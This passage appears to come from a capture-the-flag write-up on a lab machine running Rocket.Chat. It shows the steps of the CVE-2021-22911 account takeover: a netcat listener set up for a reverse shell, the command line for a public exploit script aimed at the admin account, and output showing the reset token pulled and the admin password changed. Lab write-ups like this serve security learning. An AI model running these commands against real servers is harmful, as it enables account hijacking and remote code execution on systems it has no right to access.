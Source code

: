 ![login](./pics/login-1.png)

We don't have any credentials so register a new account and login once inside the only fascinating thing is other users:

![users](./pics/users.png)

After some times on google an interesting [link](https://github.com/optionalCTF/Rocket.Chat-Automated-Account-Takeover-RCE-CVE-2021-22911) came up, a POC that it resets the admin password, retrieve the reset token and it will retur a revshell:

we open a listener:
```bash
nc -lnvp 6666
```
command to execute the exploit.py:
```bash
python3 exploit.py -u <email created> -a admin@rocket.thm -H http://chat.rocket.thm -p '<password for the previous account created>' --ip <local ip> --port <local port>



# We write admin@rocket.thm for two reasons: the first one because the admin user is present, the second one because in the previous email the pattern was <name>@rocket.thm

[+] Password Reset Email Sent
[+] Pulling Password Reset Token
[+] Reset Token: 9yGlQzyIScOUEewTCuG4e8Vq_r60bEJImg6vGzrhp0a
[+] Password was changed to 123456789
```